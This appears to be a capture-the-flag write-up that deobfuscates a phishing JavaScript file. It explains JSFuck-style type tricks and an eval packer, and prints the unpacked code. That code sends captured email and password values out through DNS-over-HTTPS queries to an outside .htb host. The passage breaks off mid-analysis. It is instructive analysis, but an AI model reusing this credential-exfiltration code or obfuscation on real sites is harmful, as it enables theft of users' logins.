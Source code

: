 # Query

> **While investigating a phishing attempt, you came across a suspicious**
> **JavaScript file. Can you find out more about it?**

## Type casting & tricks

This script plays with type conversions; for example in:

```javascript
(![] + "")[HTB]
```

`![]` is the logical negation of the empty array `[]`.

> Surprisingly, the empty array evaluates to `true`!

```javascript
Boolean([]);
true
Boolean({});
true
Boolean("");
false
```

So then `![]` is `false` and casting it to a string gives `"false"`.

Finally, the letter at index `HTB` / 0 is "f".

The weird expressions actually resolve to strings and numbers: we can just
replace them with their result.

```javascript
HTB = -1; // bitwise not on empty string

HTB = {
    ___: 0, // increment from -1 to 0
    $$$$: "f", // index 0 of "false"
    __$: 1,
    $_$_: "a", // index 1 of "false"
    _$_: 2,
    $_$$: "b", // index 2 of "[object Object]"
    $$_$: "d", // index 2 of "undefined"
    _$$: 3,
    $$$_: "e", // index 3 of "true"
    $__: 4,
    $_$: 5,
    $$__: "c", // index 5 of "[object Object]"
    $$_: 6,
    $$$: 7,
    $___: 8,
    $__$: 9,
    $_: "constructor",
    $$: "return"
};
```

## Rewriting the whole script?

Next let's substitute each HTB `HTB.___` with its actual content.

> be wary of ambiguities: `HTB.$$_` is part of `HTB.$$_$` too!

To avoid replacing part of a key, we start with the longest keys and proceed
in descending order.

```bash
perl -pe 's#HTB\.\$\$\$\$#"f"#g' htb.js > htb.sub.js
```

Or not! It's way too tedious...

## Anonymous

Actually, the huge expression ends with `()`: it is most likely a definition
that is being evaluated.

So removing the parentheses should define a new function.

```javascript
(function anonymous() {
    eval(function(p, a, c, k, e, d) {
        e = function(c) {
            return c
        }
        ;
        if (!''.replace(/^/, String)) {
            while (c--) {
                d[c] = k[c] || c
            }
            k = [function(e) {
                return d[e]
            }
            ];
            e = function() {
                return '\\w+'
            }
            ;
            c = 1
        }
        ;while (c--) {
            if (k[c]) {
                p = p.replace(new RegExp('\\b' + e(c) + '\\b','g'), k[c])
            }
        }
        return p
    }('7 304(){46.49(\'209\').305(\'306\',197)}7 197(){307 205="303://302.193/";19(46.49(\'101\')...', 10, 554, '||||||var|function|return|_0x5321c8|_0x50f60b|0x1|...|'.split('|'), 0, {}))

}
)
```

More obfuscated code!

Crazy to see how a clunky heap of special characters merged to form meaningful
code! From nails to a nasty damascus blade to a steel block.

- `p` looks like javascript code where the variable and function names have been
  replaced with numbers
- `a` is 10
- `c` is 554, the length of the array supplied in k
- `k` is an array of commands and variable names
- `e` is 0
- `d` is an empty dictionary

Some of these arguments are modified inside the anonymous function.
The specifics are fun, but don't matter in the end.

Replacing the `eval` with `console.log` will directly show the arguments after
unpacking:

```javascript
function de1fb561338fe0fa7d1b7e13ff4219f6() {
    document.getElementById("d1e0cb08a90965a7489aabc5f6d423ea").addEventListener("change", d57ad09bd0208501e2808afa64e55af1);
}

function d57ad09bd0208501e2808afa64e55af1() {
    const f4df21ccca072ba5e003e265e4314aa4 = "https://SFRCe3NvcnJ5X2J1dF90aGlzX2lzX25vdF95b3VyX2ZsYWd9.htb/";
    if (document.getElementById("7747eeee2f2dc162cc853a8371395dd5").value && document.getElementById("7747eeee2f2dc162cc853a8371395dd5").value.endsWith("@mail.htb")) {
        doh.sendDohMsg(doh.makeQuery(f9061f7c0fe73c0f0a9d310251a0f3b2(document.getElementById("7747eeee2f2dc162cc853a8371395dd5").value, document.getElementById("d1e0cb08a90965a7489aabc5f6d423ea").value), "A"), f4df21ccca072ba5e003e265e4314aa4, "GET");
    }
}
...
```

## Defeating the final boss

The payload keeps leveling up! We're now facing a troll:

```bash
echo SFRCe3NvcnJ5X2J1dF90aGlzX2lzX25vdF95b3VyX2ZsYWd9 | base64 -d
HTB{sorry_but_this_is_not_your_flag}
```

Still, let's scan all the lines
